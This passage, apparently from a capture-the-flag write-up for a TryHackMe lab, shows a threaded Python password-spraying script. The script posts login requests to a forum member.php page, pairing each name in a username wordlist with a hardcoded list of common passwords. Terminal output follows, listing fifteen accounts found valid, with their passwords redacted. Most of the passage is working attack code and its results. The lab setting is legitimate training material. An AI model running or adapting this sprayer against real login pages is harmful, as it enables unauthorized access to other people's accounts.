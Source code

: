 ```py
            'submit': 'Login',
            'action': 'do_login',
            'url': '',
            'my_post_key': my_post_key
        }

        loginRequestResult = session.post(self.__url, data=loginData)
        print(f'[*] Trying user: {username:20s}', end='\r')

        if 'Please correct the following errors before continuing:' not in loginRequestResult.text:
            print(f'[+] Found valid credentials: {username}:{password}')

def main():
    url = 'http://exit-denied.thm/member.php'
    sprayer = Sprayer(url)

    listPassword = ['password123', 'Password123', 'crabfish', 'linux123', 'secret', 'piggybank', 'windowsxp', 'starwars', 'qwerty123', 'qwerty', 'supermario', 'Luisfactor05', 'james123']
    userWordlist = 'username.txt'

    with open(userWordlist, 'r') as file:
        for line in file:
            username = line.strip()
            for password in listPassword:
                thread = Thread(target=sprayer.sendRequest, args=(username, password))
                thread.start()
        
                # You can adjust how fast of each thread. 0.5s is recommended.
                sleep(0.5)

if __name__ == '__main__':
    main()
```

```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/M4tr1x-Exit-Denied)-[2023.01.25|16:21:52(HKT)]
└> python3 password_spraying.py
[+] Found valid credentials: SarahHunt:{Redacted}
[+] Found valid credentials: bubbaBIGFOOT:{Redacted}
[+] Found valid credentials: jscale:{Redacted}
[+] Found valid credentials: PalacerKing:{Redacted}
[+] Found valid credentials: ArnoldBagger:{Redacted}
[+] Found valid credentials: Tonynull:{Redacted}
[+] Found valid credentials: SnakeSolid:{Redacted}
[+] Found valid credentials: Linda_Kale:{Redacted}
[+] Found valid credentials: BrucePrince:{Redacted}
[+] Found valid credentials: Carl_Dee:{Redacted}
[+] Found valid credentials: Daniel:{Redacted}
[+] Found valid credentials: TonyMontana:{Redacted}
[+] Found valid credentials: Mr_nickapic:{Redacted}
[+] Found valid credentials: BracketBell:{Redacted}
[+] Found valid credentials: Golderg:{Redacted}
```
